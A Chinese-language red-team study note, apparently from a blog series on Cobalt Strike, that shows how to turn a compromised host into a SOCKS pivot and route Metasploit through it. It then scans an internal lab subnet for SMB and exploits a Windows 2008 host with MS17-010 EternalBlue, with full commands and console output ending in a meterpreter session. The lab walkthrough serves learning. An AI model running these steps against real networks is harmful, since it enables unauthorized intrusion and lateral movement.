 ```yaml
---
title: 【CS学习笔记】20、通过Socks转发的方法
date: 2020-04-19 15:06:44
id: 200419-150644
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs20-1.png
summary: 这一小节中，将看看如何构建一个 SOCKS 代理服务器使一个上线主机变成我们的跳板机。
tags:
- Cobalt Strike
- 学习笔记
- 红队
categories:
- CS 学习笔记
---
```


# 0x00 前言

这一小节中，将看看如何构建一个 SOCKS 代理服务器使一个上线主机变成我们的跳板机。

# 0x01 Pivoting

> 根据 A-Team 团队中 CS 手册中的介绍，`Pivoting` 是指 `将一个受害机器转为其他攻击和工具的跳板` 的操作。

在进行 Pivoting 操作之前，需要将当前会话改为交互模式，也就是说输入命令就被执行，执行 `sleep 0` 即为交互模式。

# 0x02 Socks

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs20-1.png)

* 在当前 beacon 上可以右击选择 `Pivoting --> SOCKS Server` 设置一个 Socks4a 代理服务
* 或者使用命令 `socks [port]` 进行设置
* 使用命令 `socks stop` 关闭 Socks 代理服务

* 在 `View --> Proxy Pivots` 中可以看到已经创建的代理服务

# 0x03 Metasploit 连接到 Socks 代理服务

* CS 中创建好代理后，在 Metasploit 中可以运行以下命令通过 beacon 的 Socks 代理进行通信

```
setg Proxies socks4:127.0.0.1:[port]
setg ReverseAllowProxy true
```

如果感觉上面命令比较长，还可以在 `Proxy Pivots` 界面中点击 `Tunnel` 按钮查看命令。

* 运行以下命令来停止

```
unsetg Proxies
```

setg 命令和 unsetg 表示在 metasploit 中全局有效，不用在每次选择模块后再重新设置。

# 0x04 演示

## 1、环境说明

> 攻击机 IP：192.168.175.200
>
> 上线主机：外部IP 192.168.175.130、内部IP 192.168.232.133
>
> 攻击目标：192.168.232.0/24 地址段

当前已经上线了一个 IP 为 192.168.175.130 主机，通过 ipconfig 发现，该主机也在 192.168.232.0/24 地址段内。

但当前攻击机无法访问 232 的地址段，因此如果想对 232 段内的主机发起攻击，就可以采用将 192.168.175.130 作为跳板机访问的方式。

## 2、设置 socks 代理

开启交互模式

```
sleep 0
```

```powershell
beacon> sleep 0
[*] Tasked beacon to become interactive
[+] host called home, sent: 16 bytes
```

开启 socks 代理

```
socks 9527
```

```powershell
beacon> socks 9527
[+] started SOCKS4a server on: 9527
[+] host called home, sent: 16 bytes
```

以上操作也可以通过图形化的方式进行。

## 3、Metasploit 中进行设置

开启 Metasploit 后，运行 setg 命令

```
setg Proxies socks4:192.168.175.200:9527
```

```powershell
msf5 > setg Proxies socks4:192.168.175.200:9527
Proxies => socks4:192.168.175.200:9527
```

## 4、扫描 192.168.232.0/24 地址段中的 445 端口

这里作为演示，只扫描一下 445 端口

```
use auxiliary/scanner/smb/smb_version
set rhost 192.168.232.0/24
set threads 64
exploit
```

```powershell
msf5 > use auxiliary/scanner/smb/smb_version 

msf5 auxiliary(scanner/smb/smb_version) > set rhost 192.168.232.0/24 
rhost => 192.168.232.0/24

msf5 auxiliary(scanner/smb/smb_version) > set threads 64
threads => 64

msf5 auxiliary(scanner/smb/smb_version) > exploit 
use auxiliary/scanner/smb/smb_version
[*] 192.168.232.0/24:445  - Scanned  44 of 256 hosts (17% complete)
[*] 192.168.232.0/24:445  - Scanned  64 of 256 hosts (25% complete)
[*] 192.168.232.0/24:445  - Scanned 110 of 256 hosts (42% complete)
[*] 192.168.232.0/24:445  - Scanned 111 of 256 hosts (43% complete)
[*] 192.168.232.0/24:445  - Scanned 128 of 256 hosts (50% complete)
[+] 192.168.232.133:445   - Host is running Windows 7 Ultimate SP1 (build:7601) (name:WINTEST) (domain:TEAMSSIX) (signatures:optional)
[+] 192.168.232.132:445   - Host is running Windows 2008 HPC SP1 (build:7601) (name:WINDC) (domain:TEAMSSIX) (signatures:required)
[*] 192.168.232.0/24:445  - Scanned 165 of 256 hosts (64% complete)
[*] 192.168.232.0/24:445  - Scanned 184 of 256 hosts (71% complete)
[*] 192.168.232.0/24:445  - Scanned 220 of 256 hosts (85% complete)
[*] 192.168.232.0/24:445  - Scanned 249 of 256 hosts (97% complete)
[*] 192.168.232.0/24:445  - Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
```

## 5、发现利用

通过扫描发现在 192.168.232.0/24 地址段内，除了已经上线的 `133` 主机外，还有 `132` 主机也开放了 445 端口，且该主机为 Windows 2008 的操作系统，这里使用永恒之蓝作为演示。

```
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.232.132
set payload windows/x64/meterpreter/bind_tcp
exploit
```

```powershell
msf5 > use exploit/windows/smb/ms17_010_eternalblue

msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.232.132
rhosts => 192.168.232.132

msf5 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp

msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit 
[*] 192.168.232.132:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.232.132:445   - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 HPC Edition 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.232.132:445   - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.232.132:445 - Connecting to target for exploitation.
[+] 192.168.232.132:445 - Connection established for exploitation.
[+] 192.168.232.132:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.232.132:445 - CORE raw buffer dump (51 bytes)
[*] 192.168.232.132:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 192.168.232.132:445 - 0x00000010  30 30 38 20 48 50 43 20 45 64 69 74 69 6f 6e 20  008 HPC Edition 
[*] 192.168.232.132:445 - 0x00000020  37 36 30 31 20 53 65 72 76 69 63 65 20 50 61 63  7601 Service Pac
[*] 192.168.232.132:445 - 0x00000030  6b 20 31                                         k 1             
[+] 192.168.232.132:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.232.132:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.232.132:445 - Sending all but last fragment of exploit packet
[*] 192.168.232.132:445 - Starting non-paged pool grooming
[+] 192.168.232.132:445 - Sending SMBv2 buffers
[+] 192.168.232.132:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.232.132:445 - Sending final SMBv2 buffers.
[*] 192.168.232.132:445 - Sending last fragment of exploit packet!
[*] 192.168.232.132:445 - Receiving response from exploit packet
[+] 192.168.232.132:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.232.132:445 - Sending egg to corrupted connection.
[*] 192.168.232.132:445 - Triggering free of corrupted buffer.
[*] Started bind TCP handler against 192.168.232.132:4444
[*] Sending stage (201283 bytes) to 192.168.232.132
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 192.168.175.200:9527) at 2020-09-01 22:13:57 -0400
[+] 192.168.232.132:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.232.132:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.232.132:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > ipconfig
Interface 11
============
Name         : Intel(R) PRO/1000 MT Network Connection
Hardware MAC : 00:0c:29:d3:6c:3d
MTU          : 1500
IPv4 Address : 192.168.232.132
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::a1ac:3035:cbdf:4872
IPv6 Netmask : ffff:ffff:ffff:ffff::
```

> 参考链接：
> 
>[https://www.bilibili.com/video/BV16b411i7n5](https://www.bilibili.com/video/BV16b411i7n5)
> 
>[https://blog.ateam.qianxin.com/CobaltStrike4.0%E7%94%A8%E6%88%B7%E6%89%8B%E5%86%8C_%E4%B8%AD%E6%96%87%E7%BF%BB%E8%AF%91.pdf](https://blog.ateam.qianxin.com/CobaltStrike4.0%E7%94%A8%E6%88%B7%E6%89%8B%E5%86%8C_%E4%B8%AD%E6%96%87%E7%BF%BB%E8%AF%91.pdf)
> 
>更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)